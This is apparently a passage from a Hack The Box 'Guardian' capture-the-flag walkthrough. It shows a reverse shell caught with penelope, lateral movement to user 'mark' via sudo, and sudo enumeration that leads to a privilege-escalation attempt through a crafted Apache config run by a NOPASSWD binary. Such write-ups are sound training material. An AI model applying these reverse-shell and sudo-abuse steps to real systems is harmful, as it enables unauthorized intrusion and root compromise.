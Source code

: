 ```
[+] Listening for reverse shells on 0.0.0.0:1235 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```
run ``/opt/scripts/utilities/utilities.py`` **as** ``mark`` **with** ``system-status`` functions
```
-bash-5.1$ sudo -u mark /opt/scripts/utilities/utilities.py system-status
System: Linux 5.15.0-152-generic
CPU usage: 0.0 %
Memory usage: 34.8 %
```

## Shell as mark

```
┌──(kali㉿kali)-[~/Desktop/HTB/Guardian]
└─$ penelope -p 1235
[+] Listening for reverse shells on 0.0.0.0:1235 →  127.0.0.1 • 192.168.134.128 • 10.10.14.113
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from guardian~10.10.11.84-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/guardian~10.10.11.84-Linux-x86_64/2025_10_25-04_24_38-224.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────
mark@guardian:/home/jamil$ whoami
mark
```

### discovery as mark

user ``mark`` was able to run ``/usr/local/bin/safeapache2ctl`` as **sudo**, so should be this is our lead to root privileges.
```
mark@guardian:/home/jamil$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
mark@guardian:/home/jamil$ sudo /usr/local/bin/safeapache2ctl
Usage: /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf
mark@guardian:/home/jamil$ nano /home/mark/confs/shell.conf
mark@guardian:/home/jamil$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/shell.conf 
mark@guardian:/home/jamil$ 

```
